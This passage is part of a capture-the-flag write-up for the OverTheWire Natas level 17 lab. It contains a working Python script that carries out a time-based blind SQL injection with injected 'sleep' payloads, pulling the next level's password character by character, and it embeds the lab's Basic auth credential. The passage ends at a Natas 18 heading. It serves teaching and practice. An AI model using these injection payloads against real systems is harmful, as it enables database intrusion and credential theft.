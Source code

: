 Next we can try `1=0` which is false

![](images/Pasted image 20210318141334.png)

And now we have our true/false statements we can write a script much like the previous one but with sleep statements.

```py
import requests
from string import ascii_letters, digits, punctuation

url = "http://natas17.natas.labs.overthewire.org/index.php"

headers = { # Header requierd to access the challenge
	"Authorization":"Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=="
}

letters=ascii_letters + digits
all_chars = ""
for char in letters:
	data = {
		"username":'natas18" and password like binary "%'+char+'%" and sleep(2);-- -'
	}

	r = requests.post(url, data, headers=headers)

	if r.elapsed.total_seconds() > 2:
		all_chars+=char
		print(all_chars)

print("All chars in password: " + all_chars)
password = ""

for i in range(32):
	for char in all_chars:
		data = {
			"username":'natas18" and password like binary "'+password+char+'%" and sleep(2);-- -'
		}
		r = requests.post(url, data, headers=headers)

		if r.elapsed.total_seconds() > 2:
			password+=char
			print(password)
			break

print("Natas18 password: " + password)
```
	
Time based sqlinjections are not fully reliable. So it might take 2-3 trys sinces the server might take a while to respond without the sleep statement, also tweak the amount of seconds to sleep for your liking.

___
## Natas 18
Username: `natas18`
